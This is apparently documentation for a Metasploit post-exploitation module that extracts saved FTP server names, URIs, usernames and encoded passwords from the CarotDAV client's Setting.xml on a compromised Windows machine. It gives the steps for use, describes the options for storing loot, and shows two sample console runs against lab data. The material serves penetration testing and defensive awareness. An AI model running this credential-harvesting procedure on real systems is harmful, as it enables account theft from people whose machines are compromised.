 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the CarotDAV ftp Client.

The CarotDAV FTP Client is avaialble from (https://rei.to/carotdav_en.html).

This module extracts information from the Setting file in the "AppData\Roaming\Rei Software\CarotDAV" directory.

This module extracts server information such as connection name, target URI, username and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/carotdav_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### CarotDAV FTP v1.16.3 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Carotdav's Setting file found
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103946_default_10.0.0.2_CarotDAVSetting._341142.xml

[+] <Name>TheTestBed</Name>
[+] <Name>Aperture Testing Laboratories</Name>
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[+] <UserName>TestBed\TheTester</UserName>
[+] <UserName>TestBed\TheBackupTester</UserName>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103947_default_10.0.0.2_EXTRACTIONSSetti_673514.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### CarotDAV FTP v1.16.3 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Carotdav's base folder not found in users's user directory

[*] Starting Packrat...
[*] Carotdav's base folder found
[*] Found the folder containing specified artifact for Setting.
[*] Carotdav's Setting file found
[*] Processing C:\Users\test\AppData\Roaming\Rei Software\CarotDAV
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_CarotDAVSetting._292914.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>TheTestBed</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>Aperture Testing Laboratories</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheBackupTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_EXTRACTIONSSetti_754664.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
